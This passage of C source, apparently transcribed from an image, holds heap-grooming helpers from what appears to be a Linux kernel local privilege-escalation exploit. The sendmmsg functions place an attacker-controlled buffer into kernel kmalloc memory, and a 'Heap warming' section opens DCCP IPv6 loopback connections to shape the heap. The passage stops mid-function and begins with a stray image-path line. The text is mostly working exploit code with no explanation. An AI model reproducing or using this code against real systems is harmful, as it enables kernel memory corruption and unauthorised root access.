     void socket_sendmmsg(int sock, char *buffer) {
        struct mmsghdr msg[1];
        msg[0].msg_hdr.msg_iovlen = 0;
        // Buffer to kmalloc.
        msg[0].msg_hdr.msg_control = &buffer[0];
        msg[0].msg_hdr.msg_controllen = 2048;
        // Make sendmmsg exit easy with EINVAL.
        msg[0].msg_hdr.msg_name = "root";
        msg[0].msg_hdr.msg_namelen = 1;
        int rv = syscall(__NR_sendmmsg, sock, msg, 1, 0);
        if (rv == -1 && errno != EINVAL) {
            perror("[-] sendmmsg()");
            exit(EXIT_FAILURE);
        }
    }
    void sendmmsg_kmalloc_kfree(int port, char *buffer) {
        int sock[2];
        int rv = socketpair(AF_LOCAL, SOCK_DGRAM, 0, sock);
        if (rv != 0) {
            perror("socketpair()");
            exit(EXIT_FAILURE);
        }
        socket_sendmmsg(sock[0], buffer);
        close(sock[0]);
    }
    // * * * * * * * * * * * * * * Heap warming * * * * * * * * * * * * * * * * *
    void dccp_connect_pad(struct dccp_handle *handle, int port) {
        handle->sa.sin6_family = AF_INET6;
        handle->sa.sin6_port = htons(port);
        inet_pton(AF_INET6, "::1", &handle->sa.sin6_addr);
        handle->sa.sin6_flowinfo = 0;
        handle->sa.sin6_scope_id = 0;
        handle->s1 = socket(PF_INET6, SOCK_DCCP, IPPROTO_IP);
        if (handle->s1 == -1) {
            perror("socket(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
        int rv = bind(handle->s1, &handle->sa, sizeof(handle->sa));
        if (rv != 0) {
            perror("bind()");
            exit(EXIT_FAILURE);
        }
        rv = listen(handle->s1, 0x9);
        if (rv != 0) {
            perror("listen()");
            exit(EXIT_FAILURE);
        }
        handle->s2 = socket(PF_INET6, SOCK_DCCP, IPPROTO_IP);
        if (handle->s1 == -1) {
            perror("socket(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
        rv = connect(handle->s2, &handle->sa, sizeof(handle->sa));
        if (rv != 0) {
            perror("connect(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
    }
    void dccp_kmalloc_pad() {
        int i;
        struct dccp_handle handle;
        for (i = 0; i < 4; i++) {
            dccp_connect_pad(&handle, port++);
        }